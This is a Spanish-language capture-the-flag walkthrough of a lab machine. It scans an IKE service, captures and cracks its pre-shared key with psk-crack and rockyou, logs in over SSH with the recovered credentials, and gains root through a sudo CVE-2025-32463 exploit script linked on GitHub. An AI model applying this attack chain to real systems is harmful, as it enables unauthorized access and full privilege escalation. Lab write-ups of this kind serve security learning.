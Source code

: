 ## Enumeración
Empezaremos realizando un escaneo con [[NMAP]] en el cual encontramos abierto el puerto `22/tcp` y el puerto `500/udp`
`nmap -sSCV -p- --open --min-rate 5000 -n -Pn -vvv <IP>`
`nmap -sU -p- --open --min-rate 5000 -n -Pn -vvv <IP>`

En el puerto `500` hay un servicio `ISAKMP Internet Security Association and Key Management Protocol`
Usaremos [[IKE-SCAN]] es una utilidad de línea de comandos para descubrir, identificar (fingerprint) y recopilar información de hosts que hablan IKE (Internet Key Exchange)

Ejecutaremos el siguiente comando:
`ike-scan --aggressive --pskcrack=psk.params`
`--aggresive` -> Envía identidades y parámetros en los primeros mensajes, sin esperar un handshake completo.
`--pskcrack` -> Captura el handshake en Aggressive Mode y lo guarda en `psk.params`

Usaremos [[PSK-CRACK]] Su objetivo principal es intentar adivinar la Pre-Shared Key (PSK)
`psk-crack -d /usr/share/wordlists/rockyou.txt psk.params`
Con `-d` seleccionaremos la wordlist y a continuación le pasaremos el archivo generado anteriormente.

Nos devolverá la password,(key):
`key "freakingrockstarontheroad" matches SHA1 hash 9acd999de926d953c088daf7b69efcfdecbd1893`

El hash lo guardamos en un fichero llamado hash.

Y usamos la herramienta de [[JOHN THE RIPPER]] con el siguiente comando:
`ikescan2john hash`

Y descubrimos que hay usuario `ike`

Accedemos a el por SSH con las credenciales `ike::freakingrockstarontheroad`

## Escalada de privilegios

Si ejecutamos `sudo -l` vemos que nos tenemos permisos de root para nada.
Vemos que la versión de sudo es vulnerable `sudo --version` vemos que es una `1.9.17p1` y que es vulnerable al `CVE-2025-32463`

Nos crearemos un fichero llamado `privesc.sh` y añadimos el repositorio de GitHub `https://github.com/Maalfer/Sudo-CVE-2021-3156/blob/main/CVE-2025-32463.sh`

Le damos permiso de ejecución con `chmod +x privesc.sh` y lo ejecutamos, nos dará una shell como root.

